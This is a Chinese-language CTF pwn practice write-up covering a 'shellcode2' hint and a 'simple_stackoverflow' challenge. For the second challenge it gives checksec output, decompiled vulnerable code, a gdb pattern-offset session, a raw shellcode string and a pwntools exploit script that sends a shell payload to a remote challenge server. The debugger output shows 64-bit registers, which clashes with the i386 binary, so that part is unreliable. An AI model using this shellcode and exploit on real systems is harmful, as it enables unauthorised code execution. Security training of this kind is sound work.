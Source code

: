 # pwn练习

## 杂

### shellcode2

![](http://ww1.sinaimg.cn/large/006pWR9agy1g5mwwyhwxfj30ix0b3t97.jpg)

思路:找一个没有sh的shellcode

### simple_stackoverflow



- 常规检查

```shell
checksec simple_stackoverflow
#    Arch:     i386-32-little
#    RELRO:    Partial RELRO
#    Stack:    No canary found
#    NX:       NX disabled
#    PIE:      No PIE (0x8048000)
#    RWX:      Has RWX segments

```

啥保护都没开(开了我就凉了)

- 反汇编查看代码

  ```c
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(_bss_start, 0);
    overflow();
    return 0;
  }
  int overflow()
  {
    char buf; // [esp+8h] [ebp-20h]
  
    read(0, &::buf, 0x3FFu);
    read(0, &buf, 0x3FFu);
    return 0;
  }
  ```

  发现`read(0, &buf, 0x3FFu);`可以通过栈溢出覆盖返回地址

   ` read(0, &::buf, 0x3FFu);`可以向bss中写入shellcode

```shell
#gdb simple_stackoverflow
 gdb-peda$  pattern create 128
输入'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOA'

 ─────────────────────────────────[ REGISTERS ]─────────────────────────────────────
 RBP  0x4147414131414162 ('bAA1AAGA')
 RSP  0x7fffffffe4e8 ◂— 'AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOA\n'
 RIP  0x400750 (main+138) ◂— ret 
 gdb-peda$ pattern offset AcAA2AAH
36
```

相差36个字节

找到合适的shellcode

```shell
shellcode="\x31\xc0\x0f\xa2\x51\x68\xe7\x95\xa8\xec\x68\xde\x7f\x37\x3f\x68\x07\x1a\xec\x8f\x68\x6e\x1c\x4a\x0e\x68\x06\x5b\x16\x04\x31\x0c\x24\x5a\x75\xfa\x83\xec\x18\x54\xc3"
```

最后的exp:

```python

from pwn import *
conn=remote('120.79.114.39',10003)
shellcode="\x31\xc0\x0f\xa2\x51\x68\xe7\x95\xa8\xec\x68\xde\x7f\x37\x3f\x68\x07\x1a\xec\x8f\x68\x6e\x1c\x4a\x0e\x68\x06\x5b\x16\x04\x31\x0c\x24\x5a\x75\xfa\x83\xec\x18\x54\xc3"
payload='aaaa'*9+p32(0x0804A060)
time.sleep(1)
conn.send(shellcode)
conn.send(payload)
conn.interactive()

```



